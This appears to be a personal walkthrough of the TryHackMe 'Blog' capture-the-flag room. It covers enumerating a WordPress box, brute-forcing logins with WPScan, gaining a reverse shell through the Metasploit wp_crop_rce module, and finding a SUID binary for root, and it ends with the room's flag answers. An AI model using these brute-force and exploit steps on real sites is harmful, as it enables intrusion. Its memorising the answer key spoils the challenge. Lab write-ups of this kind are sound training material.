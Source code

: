```yaml
---
description: Billy Joel made a Wordpress blog!
---
```


# Blog

## **Description**

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

_In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file._

_Credit to_ [_Sq00ky_](https://tryhackme.com/p/Sq00ky) _for the root privesc idea ;)_

The images used in this room have been used with the author's permission or in accordance with [Section 107 of the U.S. Copyright Act](https://www.copyright.gov/title17/92chap1.html#107).

<figure><img src="../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

### Nmap

```bash
nmap -A -Pn 10.10.89.129
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

I found out some smb, let use `enum4linux` Thank ([https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#ipcusd-share](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#ipcusd-share))

### enum4linux

```bash
enum4linux -a 10.10.89.129
```

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>Found BillySMB</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>Found bjoel username</p></figcaption></figure>

### SMBClient

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>Found some picture</p></figcaption></figure>

### Crack the images

```bash
steghide extract -sf Alice-White-Rabbit.jpg
```

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption><p>Rabbit Hole!</p></figcaption></figure>

### Directory Enumeration

```bash
dirsearch -u http://10.10.89.129
```

Go back to the website that I already running **dirsearch.** I found the WordPress login.

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Let try the username that found from **enum4linux**.

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption><p>Bingo!</p></figcaption></figure>

### WPScan

```bash
wpscan --url http://blog.thm --enumerate u
```

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption><p>WordPress version 5.0</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (11) (1).png" alt=""><figcaption><p>Found more user kwheel</p></figcaption></figure>

Now, we know the WordPress version. While running the wpscan for brute-force the password. I found some vulnerability that I can reverse shell. [https://www.rapid7.com/db/modules/exploit/multi/http/wp\_crop\_rce/](https://www.rapid7.com/db/modules/exploit/multi/http/wp\_crop\_rce/)

```bash
wpscan --url http://blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames kwheel,bjoel -t 64 
```

* \-t 64: Sets the number of threads to `64`, controlling how many password attempts can be made in parallel

<figure><img src="../.gitbook/assets/image (12) (1).png" alt=""><figcaption><p>kwheel : cutiepie1</p></figcaption></figure>

### Metasploit

```bash
msf > use exploit/multi/http/wp_crop_rce
msf > set RHOST blog.thm
msf > set LHOST <YOUR_IP>
msf > set LPORT <YOUR_PORT>
msf > set USERNAME kwheel
msf > set PASSWORD cutiepie1
msf > run 
```

<figure><img src="../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

### Create Shell environment

```bash
SHELL=/bin/bash script -q /dev/null
```

```bash
find / -type f -user root -perm -u=s 2>/dev/null
```

Used to search the entire filesystem (`/`) for files (`-type f`) owned by the user `root` (`-user root`) that have the setuid bit set (`-perm -u=s`), suppressing error messages (`2>/dev/null`)

<figure><img src="../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Check all file and found interesting thing.

```bash
www-data@blog:/var/www/wordpress$ /usr/sbin/checker
/usr/sbin/checker
Not an Admin
```

```
ltrace checker
```

`ltrace`, it prints a list of all library calls made by the program as they occur.

<figure><img src="../.gitbook/assets/image (15) (1).png" alt=""><figcaption><p>DONE!</p></figcaption></figure>

## Answer the questions below

### root.txt

```bash
find / -type f -name "root.txt"
```

<figure><img src="../.gitbook/assets/image (16) (1).png" alt=""><figcaption><p>9a0b2b618bef9bfa7ac28c1353d9f318</p></figcaption></figure>

```
ANS: 9a0b2b618bef9bfa7ac28c1353d9f318
```

### user.txt

```bash
find / -type f -name "user.txt"
```

<figure><img src="../.gitbook/assets/image (17) (1).png" alt=""><figcaption><p>c8421899aae571f7af486492b71a8ab7</p></figcaption></figure>

```
ANS: c8421899aae571f7af486492b71a8ab7
```

### Where was user.txt found?

```bash
ANS: /media/usb/user.txt
```

### What CMS was Billy using?

<pre><code><strong>ANS: wordpress
</strong></code></pre>

### What version of the above CMS was being used?

```
ANS: 5.0
```

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
